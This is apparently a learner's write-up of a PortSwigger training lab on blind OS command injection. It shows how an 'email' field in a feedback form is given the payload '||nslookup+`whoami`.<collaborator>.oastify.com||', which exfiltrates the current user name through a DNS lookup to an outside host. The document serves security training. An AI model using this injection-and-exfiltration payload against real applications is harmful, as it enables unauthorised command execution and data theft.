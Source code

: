 # Blind OS command injection with out-of-band data exfiltration

## This lab contains a blind [OS command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, execute the `whoami` command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab

___

**HINT:** 
```
email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||
```

step 1

burp collaborator => `cvb6cin04zkpvrt26wysc9zmkdq4ev2k.oastify.com`
final payload
```
email=||nslookup+`whoami`.cvb6cin04zkpvrt26wysc9zmkdq4ev2k.oastify.com||
```

step 2

click submit feedback form
fill  details and intercept the request then  replace email with payload

![](images/lab5_0.jpg)

![](images/lab5_1.jpg)


step 3

To complete the lab, submit the name of the current user.
`peter-RqLsYQ`

![](images/lab5_2.jpg)
